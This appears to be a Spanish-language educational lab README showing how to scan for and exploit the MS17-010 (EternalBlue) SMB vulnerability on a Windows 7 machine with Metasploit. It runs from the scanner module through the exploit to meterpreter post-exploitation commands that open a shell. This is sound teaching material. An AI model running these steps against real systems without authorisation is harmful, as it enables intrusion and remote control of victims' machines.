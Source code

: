 Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo: Windows 7 64bits  
* Equipo Auditor: Kali Linux 

**Utilizar un scanner auxiliar para detercar si el equipo es vulnerable a  MS17-010**
* Desde Kali Linux Inicie una sesión de terminal y escriba los siguientes comandos:
```
msfconsole
```
![alt text](./lab01-images/lab01-fig1-msf-console.png "Metasploit framework")

```
Search ms17_10
```
![alt text](./lab01-images/lab01-fig2-msf-console.PNG "Metasploit framework")
```
use auxiliary/scanner/smb/smb_ms17_010
``` 
```
set RHOSTS “Dirección IP del host windows 7 64bits”
```
```
run
```
![alt text](./lab01-images/lab01-fig3-msf-console.PNG "Metasploit framework")
**utilizar un módulo para explotar la vulnerabilidad ms17_010**
```
use exploit/windows/smb/ms17_010_eternalblue ```
```
```
show options
``` 
```
set RHOST “Dirección IP del host windows 7 64bits” 
```
```
exploit 
```
![alt text](./lab01-images/lab01-fig3-msf-console.PNG "Metasploit framework")
 
**Post Exploitation**
```bash
Sysinfo
```
![alt text](./lab01-images/lab01-fig5-msf-console.PNG "Metasploit framework")
```bash
Getuid
```
![alt text](./lab01-images/lab01-fig6-msf-console.PNG "Metasploit framework")
```Bash
Shell
```
![alt text](./lab01-images/lab01-fig7-msf-console.PNG "Metasploit framework")

**Enlace para mayor información**

[Sobre Metasploit Framework] (https://www.metasploit.com/)

[Comandos usados en  Measploit Framework] (https://www.offensive-security.com/
metasploit-unleashed/msfconsole-commands/)

[Fundamentos de meterpreter] (https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
